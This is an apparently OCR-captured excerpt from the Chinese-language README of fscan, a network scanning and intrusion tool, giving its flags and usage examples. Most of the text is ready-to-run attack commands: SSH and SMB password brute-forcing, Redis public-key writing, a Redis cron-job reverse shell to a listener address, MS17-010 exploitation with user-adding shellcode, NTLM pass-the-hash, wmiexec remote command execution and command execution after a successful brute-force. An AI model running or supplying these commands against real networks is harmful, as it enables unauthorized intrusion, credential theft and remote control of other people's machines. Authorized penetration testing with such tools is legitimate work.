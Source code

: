 ```
-proxy string     #设置代理, -proxy http://127.0.0.1:8080  
-user string      #指定爆破时的用户名  
-userf string     #指定爆破时的用户名文件  
-pwd string       #指定爆破时的密码  
-pwdf string      # 指定爆破时的密码文件  
-rf string        #指定redis写公钥用模块的文件 (as: -rf id_rsa.pub)  
-rs string         #redis计划任务反弹shell的ip端口 (as: -rs 192.168.1.1:6666)  
-silent          #静默扫描,适合cs扫描时不回显  
-sshkey string    #ssh连接时,指定ssh私钥  
-t int          #扫描线程 (default 600)  
-time int          #端口扫描超时时间 (default 3)  
-u string          #指定Url扫描  
-uf string        #指定Url文件扫描  
-wt int          #web访问超时时间 (default 5)  
-pocpath string  #指定poc路径  
-usera string   #在原有用户字典基础上,新增新用户  
-pwda string    #在原有密码字典基础上,增加新密码  
-socks5       #指定socks5代理 (as: -socks5  socks5://127.0.0.1:1080)  
-sc         #指定ms17010利用模块shellcode,内置添加用户等功能 (as: -sc add)

```

### 简单使用

```
fscan.exe -h [IP] #默认使用全部模块
fscan.exe -h 192.168.1.1/16 #扫描B段
fscan.exe -h 192.168.x.x -h 192.168.1.1/24 //C段
fscan.exe -h 192.168.x.x -h 192.168.1.1/16 //B段
fscan.exe -h 192.168.x.x -h 192.168.1.1/8  //A段的192.x.x.1和192.x.x.254,方便快速查看网段信息
```
其他用法
```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
fscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
fscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
fscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (只支持简单tcp功能的代理,部分功能的库不支持设置代理)
fscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,只适用于备选工具,更推荐其他ms17010的专项利用工具)
fscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash,如32ed87bdb5fdc5e9cba88547376818d4)
fscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
```
#### 加上netbios模块才会显示netbios的信息
